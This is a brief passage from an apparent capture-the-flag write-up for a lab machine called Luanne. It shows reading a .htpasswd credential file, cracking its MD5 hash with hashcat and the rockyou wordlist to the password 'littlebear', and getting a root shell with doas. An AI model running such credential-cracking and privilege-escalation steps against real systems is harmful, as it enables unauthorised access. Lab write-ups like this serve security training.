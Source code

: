 ```Bash
luanne$ ls -la
total 32
drwxr-xr-x  2 r.michaels  wheel   96 Sep 16  2020 .
drwxr-x---  4 r.michaels  wheel   96 Sep 16  2020 ..
-rw-r--r--  1 r.michaels  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--  1 r.michaels  wheel  378 Sep 16  2020 index.html
luanne$ cat .htpasswd                                                                                                                    
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.

```

## Decrypting passwd gives out "littlebear"
```Bash
└──╼ $hashcat -m 500 --force hash2.txt /usr/share/wordlists/rockyou.txt
$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear
luanne$ doas sh
Password:
# whoami
root$
#
```

